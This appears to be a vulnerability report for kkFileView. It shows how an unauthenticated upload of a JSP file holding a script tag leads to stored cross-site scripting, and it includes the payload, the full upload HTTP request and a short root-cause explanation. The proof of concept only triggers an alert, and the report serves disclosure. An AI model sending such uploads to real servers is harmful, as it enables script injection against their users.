 # KkFileView has XSS vulnerability

![](./img/1.png)

After visiting the Web page, KKfileview project first selects the browse button to add relevant files, and then clicks the upload button.
The added file is a JSP file containing malicious JS statements. The contents of the file are as follows:

```html
<html>
<title>test ip</title>
<body>
<script>
alert('x')
</script>
</body>
</html>
```

The request packet is as follows

```
POST /fileUpload HTTP/1.1
Host: 192.168.17.168:8012
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------199653466720897274883663154374
Content-Length: 322
Origin: http://192.168.17.168:8012
DNT: 1
Connection: close
Referer: http://192.168.17.168:8012/index

-----------------------------199653466720897274883663154374
Content-Disposition: form-data; name="file"; filename="x.jsp"
Content-Type: application/octet-stream

<html>
<title>test ip</title>
<body>
<script>
alert('x')
</script>
</body>
</html>

-----------------------------199653466720897274883663154374--
```

![](./img/2.png)

Then view the address of the uploaded file under the file name address  `demo/x.jsp`

![](./img/3.png)

The file can be accessed directly by concatenating the URL, and the malicious JS file can be executed

![](./img/4.png)

View the `server\ src \main\ Java \cn\keking\web\controller\ Filecontroller.java` 

![](./img/5.png)

The reasons for this vulnerability are as follows:
1) The fileUpload method determines only the file name but not the contents of the file
2) The file upload path is not authenticated